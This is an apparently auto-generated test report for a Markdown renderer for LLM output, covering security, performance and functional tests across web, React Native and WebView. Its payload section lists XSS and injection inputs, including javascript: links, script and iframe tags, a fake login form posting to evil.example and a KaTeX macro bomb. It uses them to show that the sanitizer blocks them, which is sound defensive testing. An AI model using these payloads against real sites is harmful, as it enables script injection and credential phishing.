


# End-to-end test report

<!-- Generated by scripts/test-report.mjs (npm run docs:report). Do not edit by hand. -->

| | |
|---|---|
| Package | react-llm-markdown 0.1.0 |
| Run | 2026-11-07 |
| Browser | Chromium (Playwright 1.65.0) |
| Machine | darwin 25.6.0 arm64, Apple M2 |
| Result | **102 passed**, 0 failed, 5 not applicable |

Three targets run the same inputs:

- **Web**: `MarkdownView` from `react-llm-markdown`, in the CLI viewer (desktop Chrome viewport).
- **React Native**: `MarkdownView` from `react-llm-markdown/native`, in the [example Expo app](../example/) built for
  the web with react-native-web (Pixel 7 viewport). `react-native-webview` has no web build, so math, Mermaid and
  ECharts show their source here.
- **WebView**: the HTML documents the React Native renderer loads into `react-native-webview` for math, Mermaid
  and ECharts, with their scripts from the pinned CDN (iPhone viewport). "n/a" means the payload has no such block;
  a chart the renderer refuses (SEC-03, SEC-04, SEC-17) never reaches a WebView and shows its source instead.

See [security.md](security.md) for the policies and [performance.md](performance.md) for the method.

## Security

Each payload is rendered, then the test hovers every chart and clicks chart titles, nodes and links. It passes only
if no script ran (`window.__xss` unset), nothing was requested from `evil.example` (the attacker), no dialog
opened, the page did not navigate, and no dangerous element or URL is left in the DOM.

| ID | Payload | Expected | Web | React Native | WebView |
|---|---|---|---|---|---|
| SEC-01 | ECharts: a function string in a formatter | The function string is never called; the chart draws without it. | ✅ pass | ✅ pass | ✅ pass |
| SEC-02 | ECharts: a function inside a data array | Functions are removed at any depth; the rest of the data stays. | ✅ pass | ✅ pass | ✅ pass |
| SEC-03 | ECharts: JavaScript instead of JSON | Not JSON: no chart, the source is shown as text. | ✅ pass | ✅ pass | ✅ pass |
| SEC-04 | ECharts: JSON that is not an object | JSON that is not an option object: no chart, the source is shown. | ✅ pass | ✅ pass | ✅ pass |
| SEC-05 | ECharts: options outside the allowlist (graphic, toolbox, geo) | `graphic`, `toolbox` and `geo` are dropped; only allowed options remain. | ✅ pass | ✅ pass | ✅ pass |
| SEC-06 | ECharts: series types outside the allowlist | Only the `bar` series remains (`custom`, `pictorialBar`, `map` dropped). | ✅ pass | ✅ pass | ✅ pass |
| SEC-07 | ECharts: javascript: title link | `link` / `sublink` / `target` removed; clicking the title does nothing. | ✅ pass | ✅ pass | ✅ pass |
| SEC-08 | ECharts: links on several titles | Links removed from every title. | ✅ pass | ✅ pass | ✅ pass |
| SEC-09 | ECharts: external images and CSS | No background image, `image://` symbol, `url()` color or `extraCssText` is loaded. | ✅ pass | ✅ pass | ✅ pass |
| SEC-10 | ECharts: treemap node links | Node links removed at every level; `nodeClick` is turned off. | ✅ pass | ✅ pass | ✅ pass |
| SEC-11 | ECharts: sunburst node links | Node links removed; `nodeClick` is turned off. | ✅ pass | ✅ pass | ✅ pass |
| SEC-12 | ECharts: HTML in a tooltip | Tags stripped from the formatter; tooltips forced to `richText`. | ✅ pass | ✅ pass | ✅ pass |
| SEC-13 | ECharts: tooltip renderMode html | `renderMode: html` is overridden with `richText`. | ✅ pass | ✅ pass | ✅ pass |
| SEC-14 | ECharts: HTML in an array of tooltips | Every tooltip in the array is `richText`, no `<` or `>` left. | ✅ pass | ✅ pass | ✅ pass |
| SEC-15 | ECharts: HTML in series and data tooltips | Series- and data-level tooltips are `richText` too. | ✅ pass | ✅ pass | ✅ pass |
| SEC-16 | ECharts: HTML in title text and an unclosed tag | HTML and stray angle brackets removed from titles. | ✅ pass | ✅ pass | ✅ pass |
| SEC-17 | ECharts: more data points than the limit | Over 20,000 points: no chart, the source is shown. | ✅ pass | ✅ pass | ✅ pass |
| SEC-18 | HTML: &lt;script&gt;, event handlers, &lt;iframe&gt;, &lt;style&gt;, &lt;meta&gt; | No `<script>`, `<iframe>`, `<style>`, `<meta>` or event handler reaches the page. | ✅ pass | ✅ pass | — n/a |
| SEC-19 | URLs: javascript:, vbscript:, file:, data:, protocol-relative and disguised | Only http(s) / mailto / relative URLs survive; the others become plain text, images are not loaded. | ✅ pass | ✅ pass | — n/a |
| SEC-20 | HTML: &lt;picture&gt; sources bypassing the image policy | `<source srcset>` is dropped, so no image bypasses the URL policy. | ✅ pass | ✅ pass | — n/a |
| SEC-21 | HTML: a fake login form | `<form>` and `<button>` are dropped; `<input>` can only be a disabled checkbox (web) or nothing (native). | ✅ pass | ✅ pass | — n/a |
| SEC-22 | Mermaid: %%{init}%% turning HTML labels and loose security back on | The directive is removed: `securityLevel: strict` and text labels stay; the label is never an element. | ✅ pass | ✅ pass | ✅ pass |
| SEC-23 | Mermaid: frontmatter config and a reassembled directive | Frontmatter config and reassembled directives are removed, also inside a quote. | ✅ pass | ✅ pass | ✅ pass |
| SEC-24 | KaTeX: \href, \includegraphics, \htmlClass, huge sizes and a macro bomb | `\href`, `\includegraphics`, `\htmlClass` render as errors; sizes are capped; the macro bomb stops. | ✅ pass | ✅ pass | — n/a |
| SEC-25 | Ordinary content after hardening (table, math, currency, Mermaid, charts, sankey) | Renders normally | ✅ pass | ✅ pass | — |

<details><summary>Payloads</summary>

**SEC-01** ECharts: a function string in a formatter

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]}],"tooltip":{"formatter":"function(){window.__xss=1}"}}
```
````

**SEC-02** ECharts: a function inside a data array

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,{"value":5,"label":{"show":true,"formatter":"function(){window.__xss=1}"}}]}]}
```
````

**SEC-03** ECharts: JavaScript instead of JSON

````markdown
```echarts
{"series":[{"type":"bar","data":[1]}],"x":function(){window.__xss=1}}
```
````

**SEC-04** ECharts: JSON that is not an object

````markdown
```echarts
null
```

```echarts
[1, 2]
```
````

**SEC-05** ECharts: options outside the allowlist (graphic, toolbox, geo)

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]}],"graphic":[{"type":"image","style":{"image":"https://evil.example/graphic.png"}}],"toolbox":{"feature":{"dataView":{},"saveAsImage":{}}},"geo":{"map":"world"}}
```
````

**SEC-06** ECharts: series types outside the allowlist

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]},{"type":"custom","data":[1]},{"type":"pictorialBar","symbol":"image://https://evil.example/x.png","data":[2,4]},{"type":"map","map":"world"}]}
```
````

**SEC-07** ECharts: javascript: title link

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]}],"title":{"text":"Sales","link":"javascript:window.__xss=1","target":"self","sublink":"javascript:window.__xss=1","subtext":"FY"}}
```
````

**SEC-08** ECharts: links on several titles

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]}],"title":[{"text":"A","link":"javascript:window.__xss=1"},{"text":"B","sublink":"javascript:window.__xss=1","top":24}]}
```
````

**SEC-09** ECharts: external images and CSS

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"backgroundColor":{"image":"https://evil.example/bg.png","repeat":"repeat"},"tooltip":{"extraCssText":"background:url(https://evil.example/t)"},"series":[{"type":"scatter","symbol":"image://https://evil.example/x.png","itemStyle":{"color":"url(https://evil.example/c)"},"data":[[0,3],[1,5]]}]}
```
````

**SEC-10** ECharts: treemap node links

````markdown
```echarts
{"series":[{"type":"treemap","nodeClick":"link","data":[{"name":"click me","value":10,"link":"javascript:window.__xss=1","target":"_self"},{"name":"b","value":5,"link":"javascript:window.__xss=1"}]}]}
```
````

**SEC-11** ECharts: sunburst node links

````markdown
```echarts
{"series":[{"type":"sunburst","nodeClick":"link","radius":[0,"90%"],"data":[{"name":"click me","value":10,"link":"javascript:window.__xss=1","target":"_self"},{"name":"b","value":5,"link":"javascript:window.__xss=1"}]}]}
```
````

**SEC-12** ECharts: HTML in a tooltip

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]}],"tooltip":{"formatter":""}}
```
````

**SEC-13** ECharts: tooltip renderMode html

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]}],"tooltip":{"renderMode":"html","formatter":""}}
```
````

**SEC-14** ECharts: HTML in an array of tooltips

````markdown
```echarts
{"xAxis":{"type":"category","data":["A","B"]},"yAxis":{},"series":[{"type":"bar","data":[3,5]}],"tooltip":[{"trigger":"item","formatter":"Sales","subtext":"<svg onload=window.__xss=1 {b}"}}
```
````

**SEC-17** ECharts: more data points than the limit

````markdown
```echarts
{"xAxis":{"type":"value"},"yAxis":{},"series":[{"type":"line","data":[[0,0],[1,1],[2,2],[3,3],[4,4],[5,5],[6,6],[7,0],[8,1],[9,2],[10,3],[11,4],[12,5],[13,6],[14,0],[15,1],[16,2],[17,3],[18,4],[19,5],[20,6],[21,0],[22,1],[23,2],[24,3],[25,4],[26,5],[27,6],[28,0],[29,1],[30,2],[31,3],[32,4],[33,5],[34,6],[35,0],[36,1],[37,2],[38,3],[39,4],[40,5],[41,6],[42,0],[43,1],[44,2],[45,3],[46,4],[47,5],[48,6],[49,0],[50,1],[51,2],[52,3],[53,4],[54,5],[55,6],[56,0],[57,1],[58,2],[59,3],[60,4],[61,5],[62,6],[63,0],[64,1],[65,2],[66,3],[67,4],[68,5],[69,6],[70,0],[71,1],[72,2],[73,3],[74,4],[75,5],[76,6],[77,0],[78,1],[79,2],[80,3],[81,4],[82,5],[83,6],[84,0],[85,1],[86,2],[87,3],[88,4],[89,5]
… (188,988 characters)
````

**SEC-18** HTML: &lt;script&gt;, event handlers, &lt;iframe&gt;, &lt;style&gt;, &lt;meta&gt;

````markdown
<script>window.__xss=1</script>


<iframe src="https://evil.example/frame"></iframe>

<style>body{background:url(https://evil.example/s)}</style>

<meta http-equiv="refresh" content="0;url=https://evil.example">

<div onmouseover="window.__xss=1">hover me</div>
````

**SEC-19** URLs: javascript:, vbscript:, file:, data:, protocol-relative and disguised

````markdown
[js](javascript:window.__xss=1) [vb](vbscript:msgbox) [file](file:///etc/passwd)

[rel](//evil.example/phish) [ref][r] [spaced]( JavaScript:window.__xss=1)

 

[r]: //evil.example/ref
````

**SEC-20** HTML: &lt;picture&gt; sources bypassing the image policy

````markdown
Before the picture.

<picture><source srcset="data:image/svg+xml;base64,PHN2ZyBvbmxvYWQ9d2luZG93Ll9feHNzPTE+"><source srcset="https://evil.example/p.png"></picture>

After the picture.
````

**SEC-21** HTML: a fake login form

````markdown
<form action="https://evil.example/login"><input type="password" name="pw"><button>Sign in</button></form>
````

**SEC-22** Mermaid: %%{init}%% turning HTML labels and loose security back on

````markdown

````

**SEC-23** Mermaid: frontmatter config and a reassembled directive

````markdown


> ```mermaid
> %%%%{x}%%{init: {"securityLevel": "loose"}}%%
> flowchart LR
>   C --> D
> ```
````

**SEC-24** KaTeX: \href, \includegraphics, \htmlClass, huge sizes and a macro bomb

````markdown
$$\href{javascript:window.__xss=1}{click}$$

$$\includegraphics{https://evil.example/k.png}$$

$$\htmlClass{x}{y}$$

$$\rule{500em}{500em}$$

$$\def\a{\b\b}\def\b{\a\a}\a$$
````

</details>

## Performance

Budget: the document is rendered within **5 s** and typing into a text field still shows up within **0.5 s**
right after; showing the same answer again must not get slower or keep memory. "Longest task" is the longest
stretch the main thread was busy (a Long Tasks API entry).

| ID | Case | Target | Render | Longest task | Typing | Result |
|---|---|---|---|---|---|---|
| PERF-01 | Long text (≈200 KB, 2,000 sections) | Web | 0.45 s | 0.30 s | 0.01 s | ✅ pass |
| PERF-01 | Long text (≈200 KB, 2,000 sections) | React Native | 0.48 s | 0.28 s | 0.01 s | ✅ pass |
| PERF-02 | Large table (1,000 rows × 10 columns) | Web | 0.34 s | 0.19 s | 0.01 s | ✅ pass |
| PERF-02 | Large table (1,000 rows × 10 columns) | React Native | 0.52 s | 0.31 s | 0.02 s | ✅ pass |
| PERF-03 | Many rich blocks (20 ECharts + 10 Mermaid) | Web | 0.27 s | 0.06 s | 0.01 s | ✅ pass |
| PERF-03 | Many rich blocks (20 ECharts + 10 Mermaid) | React Native | 0.11 s | 0.00 s | 0.01 s | ✅ pass |
| PERF-04 | Large chart (20,000 points, the limit) | Web | 0.23 s | 0.00 s | 0.01 s | ✅ pass |
| PERF-04 | Large chart (20,000 points, the limit) | React Native | 0.13 s | 0.00 s | 0.01 s | ✅ pass |
| PERF-05 | Same answer (200-row table + chart + diagram) 5 times | Web | 0.18 s, 0.11 s, 0.10 s, 0.10 s, 0.10 s | — | heap 14 → 14 → 14 → 14 → 14 MB | ✅ pass |
| PERF-05 | Same answer (200-row table + chart + diagram) 5 times | React Native | 0.09 s, 0.05 s, 0.05 s, 0.05 s, 0.04 s | — | heap 21 → 21 → 21 → 21 → 21 MB | ✅ pass |

## Everything else

| Target | Test | Result |
|---|---|---|
| Web | renders every block type | ✅ pass |
| Web | no payload runs script | ✅ pass |
| Web | external links open in a new tab without a referrer; footnotes stay in the page | ✅ pass |
| Web | theme toggle switches to dark and the chart re-themes | ✅ pass |
| Web | live reload picks up a saved change | ✅ pass |
| Web | the server does not leak files | ✅ pass |
| React Native | renders the document with native views | ✅ pass |
| React Native | no payload runs script and unsafe links are plain text | ✅ pass |
| React Native | link presses reach onLinkPress, including relative links | ✅ pass |
| React Native | the Copy button hands the code to onCopyCode | ✅ pass |
| React Native | switching to dark recolors the text | ✅ pass |
| React Native | streaming never shows raw Markdown and ends with a rendered table | ✅ pass |
| site | the attack payloads preset runs nothing, on the web and in the phone | ✅ pass |
| site | streaming reveals the answer and both previews follow it | ✅ pass |
| site | a shared link restores the document | ✅ pass |
| site | on a phone: no sideways scroll, sticky pane tabs, React Native without a device frame | ✅ pass |
| WebView | Mermaid draws the diagram and reports its height | ✅ pass |
| WebView | Mermaid ignores config overrides and keeps labels as text | ✅ pass |
| WebView | a tampered script is refused (SRI) and the source is shown instead | ✅ pass |
| WebView | ECharts draws the chart at the theme height, without HTML from the option | ✅ pass |
| WebView | display math renders with KaTeX and \href stays inert | ✅ pass |
| WebView | math falls back to MathML when the KaTeX stylesheet cannot load | ✅ pass |
| WebView | the CSP blocks scripts from any other origin | ✅ pass |

